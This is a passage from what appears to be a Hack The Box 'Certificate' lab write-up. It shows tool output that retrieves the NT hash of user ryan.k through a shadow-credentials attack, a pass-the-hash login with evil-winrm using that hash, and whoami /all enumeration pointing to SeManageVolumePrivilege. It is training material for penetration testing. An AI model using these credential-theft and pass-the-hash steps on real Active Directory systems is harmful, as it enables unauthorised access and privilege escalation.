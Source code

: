 ```shell
[*]     No identities found in this certificate
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Restoring the old Key Credentials for 'Ryan.K'
[*] Successfully restored the old Key Credentials for 'Ryan.K'
[*] NT hash for 'Ryan.K': b1bc3d70e70f4f36b1509a65ae1a2ae6
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'ryan.k' -H b1bc3d70e70f4f36b1509a65ae1a2ae6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents>
```

## Enumeration (Ryan.K)

And with `Ryan.K` we `FINALLY` found someone with interesting `permissions`! The user had set `SeManageVolumePrivilege`.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\ryan.k S-1-5-21-515537669-4223687196-3249690583-1117


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
```